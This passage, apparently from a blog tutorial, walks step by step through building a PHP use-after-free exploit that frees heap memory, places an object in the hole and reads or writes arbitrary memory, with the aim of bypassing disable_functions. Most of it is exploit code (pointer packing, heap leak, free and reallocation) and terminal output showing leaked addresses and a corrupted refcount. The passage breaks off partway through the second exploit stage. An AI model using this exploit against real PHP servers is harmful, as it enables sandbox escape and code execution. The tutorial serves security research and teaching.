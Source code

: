 ```php
    $address = 0;
    for($j = $n - 1; $j >= 0; $j--) {
        $address <<= 8;
        $address |= ord($str[$p + $j]);
    }
    return $address;
}

private function ptr2str($ptr, $m = 8) {
    $out = "";
    for ($i=0; $i < $m; $i++) {
        $out .= chr($ptr & 0xff);
        $ptr >>= 8;
    }
    return $out;
}

}

new exploit("haha");
?>
```

And we can see that it worked:
```c
➜  concat-exploit php blog03.php 
[+] Concated string address:
0x7f763f27a070
[+] Placeholder string address:
0x7f763f27a150
[+] Before free:
string(79) "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB" refcount(2)

[+] After free:
string(79) "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB" refcount(1059561697)
```

As we said before, we are going to build step by step an exploit similar to the one explained in the article [A deep dive into disable_functions bypasses and PHP exploitation](https://www.tarlogic.com/blog/disable_functions-bypasses-and-php-exploitation/), reusing as much as we can. So we are going to take advantage of our ability to free memory to create a hole that is going to be occupied by an object that we are going to use for reading/writing arbitrary memory. As we know where the hole is (the address of the placeholder, that is calculated applying an offset to the leaked address), we can access to the properties' memory contents directly (`$placeholder[offset]`) and use them to leak memory at any desired address. We can perform an easy test:

```php
<?php

class Helper { public $a, $b, $c, $d; }  

class exploit {
public function __construct($cmd) {
    $concat_result_addr = $this->leak_heap();
    print "[+] Concated string address:\n0x";
    print dechex($concat_result_addr);
    $this->placeholder = $this->alloc(0x4F, "B");
    $placeholder_addr = $concat_result_addr+0xe0;
    print "\n[+] Placeholder string address:"; 
    print "\n0x".dechex($placeholder_addr);
    $this->free($placeholder_addr);
    $this->helper = new Helper;
    $this->helper->a = "KKKK";
```